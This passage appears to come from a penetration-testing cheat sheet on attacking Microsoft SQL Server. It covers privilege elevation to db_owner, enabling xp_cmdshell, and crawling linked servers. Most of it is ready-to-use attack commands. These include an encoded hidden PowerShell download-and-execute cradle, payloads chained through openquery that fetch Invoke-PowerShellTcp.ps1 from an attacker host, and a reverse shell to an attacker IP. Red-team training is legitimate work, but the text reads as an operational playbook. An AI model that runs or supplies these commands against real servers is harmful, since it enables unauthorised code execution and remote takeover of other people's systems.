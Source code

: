 ````
```
Import-Module .\Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser <USER> -SqlPass <PASSWORD> -SqlServerInstance <INSTANCE>
```
 
### Command execution
![image](https://user-images.githubusercontent.com/43987245/151711534-6114738f-6c9c-49b2-8c5f-0cb27f5fa6d0.png)

#### Check xp_cmdshell
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
```
 
#### Enable and run xp_cmdshell
```
-- Enable show options
EXEC sp_configure 'show advanced options',1
RECONFIGURE
GO
-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
GO
-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```
 
#### Execute commands trick
- Prevents having to deal with the escaped, qoutes, double qoutes etc
```
$str = 'IEX ((new-object net.webclient).downloadstring("http://x.x.x.x:8090/payload"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip
EXEC xp_cmdshell 'powershell.exe -w hidden -enc <BASE64 STRING>';
```
 
#### Execute commands examples
```
Get-SQLServerLinkCrawl -Instance <SQL INSTANCE> -Query "exec master..xp_cmdshell 'whoami'"
Invoke-SQLOSCmd -Instance <SQL INSTANCE> -Verbose -Command "Whoami" -Threads 10
 
Invoke-SQLOSCLR -Instance <SQL INSTANCE> -Verbose -Command "Whoami" 
Invoke-SQLOSOLe -Instance <SQL INSTANCE> -Verbose -Command "Whoami" 
Invoke-SQLOSR -Instance <SQL INSTANCE> -Verbose -Command "Whoami" 
```

#### Execute command through links example
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')
```

#### Execute reverse shell example
```
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Query "exec master..xp_cmdshell 'Powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000'"
```
 
### Database links
#### Search for links to remote servers
- Check if `RPC_OUT` is enabled. If yes and link is configured with sysadmin we can enable xp_cmdshell.
```
Get-SQLServerLink -Instance <SQL INSTANCE> -Verbose
````
